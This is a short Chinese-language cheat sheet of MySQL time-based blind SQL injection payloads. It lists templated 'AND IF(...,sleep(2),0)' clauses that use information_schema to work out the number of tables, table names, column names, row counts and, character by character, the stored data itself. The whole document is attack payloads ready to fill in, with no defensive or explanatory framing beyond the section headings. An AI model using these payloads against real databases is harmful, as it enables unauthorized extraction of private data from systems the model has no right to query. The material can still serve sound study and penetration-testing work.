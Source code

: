 ##### 判断数据库表的数量

```mysql
AND IF((SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema='数据库名')=2,sleep(2),0)
```

##### 判断表名长度

```mysql
AND IF((SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema='数据库名' limit 第x个表,1)=7,sleep(2),0)
```

##### 判断表名

```mysql
AND IF((SELECT ASCII(SUBSTR(table_name,第x位,1)) FROM information_schema.tables WHERE table_schema='数据库名' limit 第x个表,1)=ascii码,sleep(2),0)
```

##### 判断表中的字段数量

```mysql
AND IF((SELECT COUNT(column_name) FROM information_schema.columns WHERE table_name='表名' and table_schema='数据库名')=3,sleep(2),0)
```

##### 判断字段长度

```mysql
AND IF((SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_name='表名' and table_schema='数据库名' limit 第x个字段,1)=2,sleep(2),0)
```

##### 判断字段名

```mysql
AND IF((SELECT ASCII(SUBSTR(column_name,第x位,1)) FROM information_schema.columns WHERE table_name='表名' and table_schema='数据库名' limit 第x个字段,1)=ascii码,sleep(2),0)
```

##### 判断数据数量

```mysql
AND IF((SELECT COUNT(字段名) FROM 数据库名.表名)=1,sleep(2),0)
```

##### 判断数据内容长度

```mysql
AND IF((SELECT LENGTH(字段名) FROM 数据库名.表名 limit 第x条数据,1)=1,sleep(2),0)
```

##### 判断数据内容

```mysql
AND IF((SELECT ASCII(SUBSTR(字段名,第x位,1)) FROM 数据库名.表名 limit 第x条数据,1)=ascii码,sleep(2),0)
```
